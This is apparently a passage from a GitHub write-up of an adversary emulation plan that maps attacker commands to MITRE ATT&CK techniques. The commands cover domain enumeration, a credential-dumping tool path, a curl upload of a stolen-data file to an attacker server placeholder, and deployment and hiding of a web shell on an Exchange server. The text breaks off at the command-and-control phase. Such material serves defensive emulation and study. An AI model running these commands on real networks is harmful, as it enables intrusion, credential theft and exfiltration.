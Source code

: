   - **Account and Privilege Information**:

    - `net user /domain`, `net group /domain`, `net group "domain admins" /domain`, `net group "Exchange Trusted Subsystem" /domain`: Enumerate **domain users and groups**, especially privileged ones (`T1069.002`, `T1087.002`).
    - `net accounts /domain`: Retrieves **domain password policy** details (`T1201`).
    - `net localgroup administrators`: Checks for **local administrative privileges** (`T1069.001`).
  
  - **Running Processes and Services**:

    - `tasklist`: Lists **active processes**, useful for identifying running security services or monitoring tools (T1057).
    - `sc query`: Lists **system services**, giving insight into important services like antivirus, which might need to be avoided or disabled (T1007).
  
  - **Registry and Configuration Information**:

    - `reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default"`: Checks for **recent RDP connections**, helping assess previous remote access activity and potential lateral movement targets (`T1012`).
  
  2. **Credential Access Phase (Attempt to Steal Credentials)**

  After gathering basic information, the attacker attempts to access credentials that can be used to escalate privileges or move laterally within the network.

  - **Credential Dumping**:
    - `C:\Users\#{initial.target.user}\AppData\local\SystemFailureReporter\b.exe`: Likely a tool or script designed to `extract credentials` stored in the system’s Credential Manager or other secure locations (`T1555.004`).
  
  3. **Exfiltration Phase (Extracting Information)**
  
  This phase involves moving collected data out of the target network to an external server under the attacker’s control.

  - **File Upload**:
    - `curl -F "data=@C:\Users\#{initial.target.user}\AppData\Roaming\fsociety.dat" --header "X-Request-ID: #{initial.target.user}-#{paw}" #{server}/file/upload`: Uploads a specified file, potentially containing **credentials or sensitive information**, to the attacker’s external server (T1041).

  4. **Persistence Phase (Maintaining Access)**
  
  The attacker deploys a web shell on a server directory that allows for remote code execution, ensuring ongoing access to the compromised environment.

  - **Web Shell Deployment**:
    - `copy C:\Users\Public\contact.aspx "\\#{second.target.ip}\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\"`: Copies a web shell file to an Exchange server directory, allowing the attacker to execute commands remotely by sending HTTP requests to this file (`T1505.003`).
    - `attrib +h "\\#{second.target.ip}\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\contact.aspx"`: Sets the **hidden attribute** on the web shell file, making it less noticeable on the filesystem (T1564.001).

  5. **Command-and-Control (C2) Phase (Setting up C2 for Remote Access)**

  The attacker configures a persistent C2 channel using plink.exe for SSH tunneling, enabling remote control over the target environment. This C2 setup allows the attacker to maintain a foothold and issue commands without being physically present.
